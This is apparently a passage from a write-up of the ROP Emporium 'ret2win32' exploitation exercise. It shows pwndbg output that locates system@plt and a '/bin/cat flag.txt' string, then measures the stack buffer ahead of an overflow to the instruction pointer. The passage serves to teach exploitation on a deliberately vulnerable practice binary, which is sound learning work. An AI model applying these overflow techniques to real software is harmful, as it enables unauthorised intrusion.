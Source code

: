 This function is responsible for displaying flag,

```c
pwndbg> x/s 0x80483e0
0x80483e0 <system@plt>:	"\377%\030\240\004\bh\030"
pwndbg> x/s 0x8048813
0x8048813:	"/bin/cat flag.txt"
```

So we have to call this function to pass this program

We can achieve this by simple overflow upto ```Instruction Pointer```

Lets set break points and check the buffer size,

```c
pwndbg> b *0x08048616
Breakpoint 1 at 0x8048616
pwndbg> r
Starting program: /home/ra/ret2win32/ret2win32
ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> AAAABBBBCCCCDDDD

Breakpoint 1, 0x08048616 in pwnme ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0x11
 EBX  0x0
 ECX  0xffffd1f0 ◂— 'AAAABBBBCCCCDDDD\n'
 EDX  0x38
 EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0xffffd218 —▸ 0xffffd228 ◂— 0x0
 ESP  0xffffd1e0 ◂— 0x0
 EIP  0x8048616 (pwnme+105) ◂— add    esp, 0x10
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x8048616 <pwnme+105>    add    esp, 0x10
   0x8048619 <pwnme+108>    sub    esp, 0xc
   0x804861c <pwnme+111>    push   0x80487eb
   0x8048621 <pwnme+116>    call   puts@plt <puts@plt>

   0x8048626 <pwnme+121>    add    esp, 0x10
   0x8048629 <pwnme+124>    nop
   0x804862a <pwnme+125>    leave
   0x804862b <pwnme+126>    ret

   0x804862c <ret2win>      push   ebp
   0x804862d <ret2win+1>    mov    ebp, esp
   0x804862f <ret2win+3>    sub    esp, 8
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd1e0 ◂— 0x0
01:0004│     0xffffd1e4 —▸ 0xffffd1f0 ◂— 'AAAABBBBCCCCDDDD\n'
02:0008│     0xffffd1e8 ◂— 0x38 /* '8' */
03:000c│     0xffffd1ec ◂— 0x4
04:0010│ ecx 0xffffd1f0 ◂— 'AAAABBBBCCCCDDDD\n'
05:0014│     0xffffd1f4 ◂— 'BBBBCCCCDDDD\n'
06:0018│     0xffffd1f8 ◂— 'CCCCDDDD\n'
```